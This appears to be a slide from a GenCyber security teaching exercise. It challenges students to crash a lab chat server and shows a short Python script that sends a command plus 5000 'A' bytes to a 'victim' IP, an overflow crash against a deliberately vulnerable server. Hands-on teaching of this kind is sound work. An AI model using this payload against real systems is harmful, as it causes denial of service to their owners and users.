

# Motivating Game
Can you crash the chat server somehow with /home/usrxxx/GenCyber/attack/DoS.py?

# This module "socket" provides access to the BSD socket interface
import socket
# This module "struct" performs conversions between Python values
# and C structs represented as Python bytes objects.
import struct

HOST = '192.168.7.62'   # vitcim IP
PORT = 9999         # victim port

# Payload to inject into vulnserver
PAYLOAD = (
    b'KNOCK /.:/' +  # TRUN command of the server
    b'A' * 5000
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
3